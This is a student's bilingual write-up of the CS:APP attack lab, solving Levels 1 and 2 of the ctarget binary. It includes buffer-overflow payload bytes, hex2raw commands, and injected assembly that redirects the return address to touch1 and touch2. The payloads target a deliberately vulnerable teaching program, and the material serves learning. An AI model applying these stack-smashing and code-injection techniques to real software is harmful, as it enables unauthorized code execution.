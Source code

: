 [toc]
<img src="note_img/attack_phase.png" style="zoom:60%">
```shell
Usage: [-hq] ./ctarget -i <infile> 
  -h          Print help information
  -q          Don't submit result to server
  -i <infile> Input file
```
```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);//Gets terminate by '/n' or EOF
    return 1;
}
```
## Level 1
```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
Task:get _ctarget_ execute the code for _touch1_ when _getbuf_ execute its return statement.
```assembly
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
```
The starting address of _touch1_
```assembly
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
```
Problems encountered and solutions:
You cannot directly write "00000000004017c0" after 40 char as it's not an address but a seris of ascii code such as '0' is 48!!!
It's not easy to address this problem as the range of ascii is 0 ~ 127.
So if you want to input 48(0x30) into the stdin,you can directly type '0'(a char).However,if you want to input 192(0xc0),there is no corresponding letter.
> In fact 192 has corresponding letter, you can use Mac's calculator to search.But not all letters can easily found on keyboard.

We can use _Hex2raw_ to convert.
_Hex2raw_ 可以将一个byte(用16进制表示)转化成能直接输入内存的形式。
比如讲 30 转换成 '0'.

So the solution of level1 is
`./hex2raw < level1.txt > level1_raw.txt`
`./ctarget -qi level1_raw.txt`

```
/* level1.txt */ 
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
C0 17 40
```
The dest address is 0x4017c0 and the original address is 0x4019a4 so I begin to wonder if I can only type c0 17 at the end of file. It fails because __Gets add an '\0' at the end of input string__. So the ($rsp+0x28) would become 0x0017c0.
## Level 2
```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } 
  else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
ret 从栈中弹出一个地址，并跳转到这个地址。
查阅知进入getbuf后，`%rsp-0x28`后的地址为`0x5561dc78`
我的cookie是：`0x59b997fa`
exploit code:
```assembly
movq $0x59b997fa,%rdi
ret
```
```
0: 48 c7 c7 fa 97 b9 59   movq $0x59b997fa,%rdi
7: c3                 retq
```
栈结构：
-exploit code
-address of touch2
%rsp => -address of exploit code (`0x5561dc78 + 0x28 + 0x8 + 0x8 = 0x5561dcb0`)

touch2
`0x00000000004017ec <+0>:	sub    $0x8,%rsp`

problems encountered and solutions:
movq只能传送32位补码数字的立即数作为源操作数。然后将这个值符号拓展到64位。
而我的cookie是0x59b997fa，显然
```
0: bf fa 97 b9 59   movl $0x59b997fa,%edi
5: c3            retq
```
```
0: bf fa 97 b9 59  movl $0x59b997fa,%edi$
5: 48 83 ec 18   sub $0x18,%rsp
9: c3   retq
```
以上对level2的尝试均告失败:sob::sob:，报错均为`segmatation fault`。
因为我将攻击代码写到了该函数可用空间的外面。应该将代码写到`%rsp ~ %rsp-0x28`的范围内。

正确栈结构：
address of touch2(0x4017ec)
%rsp=> exploit code address(0x5561dc78)
...some char...
0x5561dc78:bf fa 97 b9 59 c3
> 也可以使用这样的攻击代码
> ```assembly
> movl $cookie,%rdi
> pushq $0x4017ec
> ret
> ```
> 这样就不用自己再栈中写入touch2的开始地址了。